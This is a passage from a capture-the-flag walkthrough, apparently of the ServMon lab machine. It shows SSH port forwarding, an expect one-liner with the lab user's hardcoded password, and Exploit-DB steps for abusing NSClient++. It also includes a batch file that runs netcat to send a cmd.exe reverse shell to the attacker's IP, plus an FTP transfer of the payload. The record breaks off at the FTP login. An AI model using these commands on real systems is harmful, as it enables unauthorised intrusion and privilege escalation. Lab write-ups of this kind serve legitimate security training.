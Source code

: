![nsc-port](images/nsc-port.png "nsc-port")

Now, we know the port is 8443. We can use the following command to connect to the web application page:
~~~
root@kali:~# ssh -N -L 0.0.0.0:8443:127.0.0.1:8443 nadine@10.10.10.184
~~~

Let me explain:     
We execute an ssh command from our attack machine. We will not technically issue any ssh commands (**-N**) but will set up port forwarding (with **-L**), bind port 8443 on our local machine (**0.0.0.0:8443**) to port 8443 on the target (**127.0.0.1:8443**) and do this through a session to our original target **10.10.10.184**, logging in as **nadine**.

Once we understand this, we may want an easy way to use this command, like a "fire and forget" mode where you don't have to enter the password. Let's give a try to this one-liner:
~~~
root@kali:~# expect -c 'spawn ssh -N -L 0.0.0.0:8443:127.0.0.1:8443 nadine@10.10.10.184; expect "password:"; send "L1k3B1gBut7s@W0rk\r"; interact'
~~~

### 4.3- Post-Compromise Exploitation Part 2 - Script Execution
Now we can connect the application:

![nsc-signin](images/nsc-signin.png "nsc-signin")




**We should keep an eye on the Exploit-DB page and follow instructions:**


"*2. Login and enable following modules including enable at startup and save configuration:     
-> CheckExternalScripts          
-> Scheduler* "

These modules are already enabled:

![nsc-modules](images/nsc-modules.png "nsc-modules")

Now, the plan is to upload a script to get a reverse shell and make the NSClient application run it as Administrator.
"*3. Download nc.exe and evil.bat to c:\temp from attacking machine* "

We make a file including the code :
~~~
@echo off       
c:\temp\nc.exe 10.10.14.23 443 -e cmd.exe
~~~

And we set up a web server or a FTP server on our attacking machine to be able to transfer the files "nc.exe" and "evil.bat" on the target. If we choose to set up a FTP server:
~~~
root@kali:~# systemctl start pure-ftpd
~~~

From the target, we connect to the ftp and download the files:
~~~
nadine@SERVMON c:\Temp>ftp 10.10.14.23
Connected to 10.10.14.23.
220---------- Welcome to Pure-FTPd [privsep] [TLS] ----------
220-You are user number 1 of 50 allowed.
220-Local time is now 18:33. Server port: 21.
220-This is a private system - No anonymous login
220-IPv6 connections are also welcome on this server.
220 You will be disconnected after 15 minutes of inactivity.
504 Unknown command
User (10.10.14.23:(none)): fred
331 User fred OK. Password required
~~~